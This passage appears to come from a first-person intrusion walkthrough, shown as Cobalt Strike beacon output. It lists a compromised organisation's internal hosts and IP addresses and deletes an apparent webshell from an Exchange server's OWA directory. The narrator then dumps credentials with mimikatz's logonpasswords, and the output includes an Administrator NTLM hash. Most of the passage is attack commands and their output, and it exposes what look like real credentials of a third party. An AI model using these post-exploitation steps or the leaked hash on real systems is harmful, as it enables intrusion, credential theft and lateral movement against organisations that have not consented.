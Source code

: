 ```
 REC4                    172.16.20.24                     500       6.1
 REGSTAT2                172.16.20.26                     500       6.1
 REGVIP                  172.16.20.27                     500       6.1
 SHEF                    172.16.2.202                     500       6.1
 SHEFKONDITER            172.16.10.9                      500       6.1
 SKLAD3                  172.16.2.23                      500       6.1
 SLOTBOSS                172.16.3.199                     500       10.0
 SLOTMANAGER             172.16.13.138                    500       6.1
 TECHNOLOG               172.16.3.134                     500       6.1
 TS-3                    172.16.20.241                    500       10.0
 TS-5                    172.16.4.53                      500       10.0
 ULYA_URASKINA           172.16.2.128                     500       6.1
 URIST                   172.16.5.112                     500       6.1
 VEEAMVCENTER            172.16.0.59                      500       6.3
 ZAV-SKLAD-L2            172.16.3.103                     500       6.1

beacon> rm C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\Fr7kkADqp.aspx
```

Looks like we have a total of 55 computers to hop around in the network. Normally you should run `getuid` beacon command that even metasploit comes with to understand what current privileges you have. However, it wasn't necessary to do it since Cobalt Strike has a nice GUI frontend that tell us we are `NT AUTHORITY\SYSTEM` so the next step before we continue on lateral movement and **Privilege Escalation** wasn't an issue for us, we have to dump the credentials using beacon command `hashdump` or mimikatz shortcut command in beacon `logonpasswords`.

```
beacon> logonpasswords
[*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command
[+] host called home, sent: 296206 bytes
[+] received output:

Authentication Id : 1 ; 2658188168 (00000001:9e70bb88)
Session           : NewCredentials from 0
User Name         : SYSTEM
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 3/23/2022 6:34:04 PM
SID               : S-1-5-18
       msv :
        [00000003] Primary
        * Username : Administrator
        * Domain   : EXEMS
        * NTLM     : f650a2ecaa6d7ed6937ad3934faef2b9
       tspkg :
       wdigest :
        * Username : Administrator
        * Domain   : EXEMS
        * Password : (null)
       kerberos :
        * Username : Administrator
        * Domain   : EXEMS
        * Password : (null)
       ssp :
       credman :
..[snip]..
```
